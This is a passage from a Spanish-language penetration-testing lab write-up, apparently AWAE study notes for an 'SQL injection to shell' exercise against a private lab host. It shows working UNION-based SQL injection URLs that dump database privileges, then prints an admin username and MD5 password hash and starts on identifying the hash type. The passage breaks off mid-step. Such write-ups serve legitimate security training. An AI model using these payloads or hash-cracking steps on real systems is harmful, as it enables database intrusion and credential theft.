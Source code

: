 10. Privilegios

	- http://172.16.113.157/cat.php?id=2+UNION+SELECT+NULL%2Cconcat_ws%28%27%7C+%27%2Cgrantee%2Ctable_schema%2Cprivilege_type%29%2CNULL%2CNULL+FROM+information_schema.schema_privileges
	- http://172.16.113.157/cat.php?id=2+UNION+SELECT+NULL%2Cconcat_ws%28%27%7C+%27%2Cgrantee%2Cprivilege_type%29%2CNULL%2CNULL+FROM+information_schema.user_privileges+WHERE+grantee+like+%27%25pentester%25%27
      

![](https://github.com/Nyanyi/Awae/blob/main/exercices/sqli_to_shell/images/privilegios.png)

## Fase 4: Descifrado del password del usuario admin

1. Credenciales del admin: 
   - admin | 8efe310f9ab3efeae8d410a8e0166eb2
2. Usando google
3. Identificación con Hash-identifier

![hash_identifier](https://github.com/Nyanyi/Awae/blob/main/exercices/sqli_to_shell/images/hash_identifier.png)

4. Identificación mediante el código.

   1. En el fichero /admin/login:

      ![login](https://github.com/Nyanyi/Awae/blob/main/exercices/sqli_to_shell/images/login.png)

      

   2. En el fichero /admin/index:
